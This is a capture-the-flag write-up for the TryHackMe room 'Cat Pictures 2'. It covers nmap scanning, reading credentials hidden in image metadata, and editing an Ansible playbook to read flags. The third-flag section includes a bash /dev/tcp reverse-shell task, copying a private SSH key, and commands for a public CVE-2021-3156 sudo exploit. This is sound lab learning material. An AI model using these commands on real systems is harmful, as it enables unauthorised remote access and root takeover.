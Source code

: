 # Cat Pictures 2

This is a writeup for the TryHackMe room [Cat Pictures 2](https://tryhackme.com/room/catpictures2).

<Image src="https://tryhackme-images.s3.amazonaws.com/room-icons/4c424fa649d64938ae8282b14e4299ac.png" width="128" />

Main parts of the room:

- Reading image metadata
- Accessing Gitea and editing files using Git or in-browser editor
- Runnig custom Ansible tasks through OliveTin
- Exploiting CVE-2021-3156

## Footprinting

Firstly, we can start with a nmap scan.

We find five open ports with three web servers publicly accessible.

```bash
nmap -sS <HOST>
```

<Image src="/images/writeups/thm/2023/cat-pictures-2/nmap.png" />

```
22 -> SSH
80 -> Lychee Photo Album
222 -> Gitea SSH (?)
3000 -> Gitea
8080 -> python server (?)
```

## First flag

### Finding interesting metadata

We can begin by looking inside the Lychee Photo Album.

In the info of the first image we can find a message about stripping away the metadata.

<Image src="/images/writeups/thm/2023/cat-pictures-2/image.png" />

Once the image is downloaded, we can check its metadata to find an url to a secret txt note.

```
exiftool image.jpg
```

<Image src="/images/writeups/thm/2023/cat-pictures-2/metadata.png" />

### The secret note

The url is `:8080/764efa883dda1e11db47671c4a3bbd9e.txt`

```
note to self:

I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
This file isn't easy to find anyway unless you have the correct url...

gitea: port 3000
user: samarium
password: TUmhyZ37CLZrhP

ansible runner (olivetin): port 1337
```

### Accessing Gitea

Now, we have the credentials for the Gitea instance.

Once logged in, we can see a repository called `ansible`.

<Image src="/images/writeups/thm/2023/cat-pictures-2/repo.png" />

Inside the repository there is a file called `flag1.txt`. Open it to get the first flag.

## Second flag

### Running Ansible tasks using OliveTin

From the secret note, we know that Ansible is accessible on the port 1337.

There we can find a OliveTin instance that allows to run the Ansible tasks.

<Image src="/images/writeups/thm/2023/cat-pictures-2/ansible.png" />

### Editing the playbook

It is possible to change the script `playbook.yml` through Gitea and then run it from OliveTin.

If you prefer you can also configure the ssh access and modify it from your machine.

<Image src="/images/writeups/thm/2023/cat-pictures-2/edit.png" />

Firstly, we can print the content of the home folder.

Following the example script, this is a possible solution.

```yaml
---
- name: Test
  hosts: all
  remote_user: bismuth
  tasks:
    - name: print home folder
      become: false
      command: ls -lR ~
      register: ls_content
      changed_when: false

    - debug: var=ls_content
```

Run the script and check the output.

We can see that in the home folder there is a file called `flag2.txt`.

We can edit again the script to print the content of the flag.

```yaml
---
- name: Test
  hosts: all
  remote_user: bismuth
  tasks:
    - name: print flag2
      become: false
      command: cat flag2.txt
      register: flag2
      changed_when: false

    - debug: var=flag2
```

<Image src="/images/writeups/thm/2023/cat-pictures-2/ansible-output.png" />

If you check the output, you can see the second flag.

## Third flag

### Obtaining a reverse shell

For the third flag, it is better to use a reverse shell.

Remember to listen with:

```bash
nc -nlvp <PORT>
```

To check your IP use:

```bash
ifconfig
```

In this Gist you can find an example:

<Gist id="32ccf1baaa3066654a460265fca53960" />

```yaml
---
- name: Test
  hosts: all
  remote_user: bismuth
  tasks:
    - name: rev
      shell: bash -c 'bash -i >& /dev/tcp/<HOST>/<PORT> 0>&1'
```

<Image src="/images/writeups/thm/2023/cat-pictures-2/rev.png" />

### Stealing ssh keys

To make the work easier, we can also steal the ssh key.

It is enough to copy the content of `~/.ssh/id_rsa` and paste it in a file on our machine.

Then, we can use the command `ssh -i <FILE> bismuth@<HOST>` to login.

### Exploiting CVE-2021-3156

We can try with LinPeas and LinEnum, but a faster way is to exploit the CVE-2021-3156 vulnerability.

[https://github.com/blasty/CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)

Download the file from the github repo and copy them on the machine.

After that, follow the instructions to exploit the vulnerability.

In the end, you should run something like this:

```bash
# build the exploit
make

# obtain a list of possible targets
./sudo-hax-me-a-sandwich

# select a target
./sudo-hax-me-a-sandwich 0
```

The third flag is in the root folder.

<Image src="/images/writeups/thm/2023/cat-pictures-2/pe.png" />
